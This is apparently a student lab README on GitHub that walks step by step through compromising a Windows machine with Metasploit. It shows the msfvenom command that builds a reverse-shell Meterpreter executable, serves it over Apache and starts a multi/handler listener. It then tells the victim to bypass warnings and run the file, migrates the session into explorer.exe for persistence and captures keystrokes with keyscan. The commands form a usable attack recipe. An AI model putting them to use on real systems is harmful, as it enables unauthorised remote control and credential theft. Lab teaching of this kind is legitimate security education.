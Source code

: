 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## Program:
Find the attackers ip address using ifconfig

![244990907-d81c29e7-4cb2-4989-a4f0-32d0f4dcffa5](https://github.com/prithviraj5703/Compromising-windows-using-Metasploit/assets/121418418/f13f76b8-883c-489c-956e-dcd7b8f84cf7)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:

![244990946-a8e477e7-1f5b-4831-a003-ffc199679313](https://github.com/prithviraj5703/Compromising-windows-using-Metasploit/assets/121418418/ee5262d5-57a7-4622-b69a-d0cd2c16637e)

copy the fun.exe into the apache /var/www/html folder

![244991211-edc15bf9-0646-4d77-a7b2-7fbe6adae449](https://github.com/prithviraj5703/Compromising-windows-using-Metasploit/assets/121418418/88e393c7-82d6-4b69-9f9a-4def8c91896f)

Start apache server sudo systemctl apache2 start

![244990956-f2bdb40b-22b8-409e-8295-7cac780eab89](https://github.com/prithviraj5703/Compromising-windows-using-Metasploit/assets/121418418/55c78c3e-4868-4fd7-ab06-d8c940c858c2)

Check the status of apache2

![244990958-d5dca89e-d102-408d-aa25-d60e7e09ff2b](https://github.com/prithviraj5703/Compromising-windows-using-Metasploit/assets/121418418/54feb6cf-1e59-417d-94b3-498b5127bf75)

Invoke msfconsole:

## Output:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler

![244990962-31c4d664-f12a-45a9-aa29-e988f03e88e1](https://github.com/prithviraj5703/Compromising-windows-using-Metasploit/assets/121418418/931893c4-ef3d-4450-9916-94bed8b8ff6c)

set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. 

![244990896-a6b73051-a143-4740-b3d9-27c23762218f](https://github.com/prithviraj5703/Compromising-windows-using-Metasploit/assets/121418418/86fa7c6f-16ad-4b92-ab11-f24fe0e94e32)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![244990902-b46a08f7-a9fc-4e71-8fdd-170ee187dd22](https://github.com/prithviraj5703/Compromising-windows-using-Metasploit/assets/121418418/1ccc1903-58ea-4a05-b1a1-c81878e66db4)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![244990924-7e6e28fb-b095-4fd1-81f8-a0292f82c9a2](https://github.com/prithviraj5703/Compromising-windows-using-Metasploit/assets/121418418/446ba3f5-9d59-4c57-9c5c-19f8eeb87123)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![244990928-836e6efa-423f-4553-ad2f-19170b010892](https://github.com/prithviraj5703/Compromising-windows-using-Metasploit/assets/121418418/2e3bc4ef-91ad-4da4-ae3c-90a4a622baf3)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name. 

![image](https://github.com/prithviraj5703/Compromising-windows-using-Metasploit/assets/121418418/167539ad-9cba-49ac-9844-06688520e823)

keyscan_dump Shows the keystrokes captured so far 

![244990920-d40a4428-0c65-4855-be1d-c278766082fb](https://github.com/prithviraj5703/Compromising-windows-using-Metasploit/assets/121418418/4e298044-c4bc-45b4-a205-e30b340abaa7)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
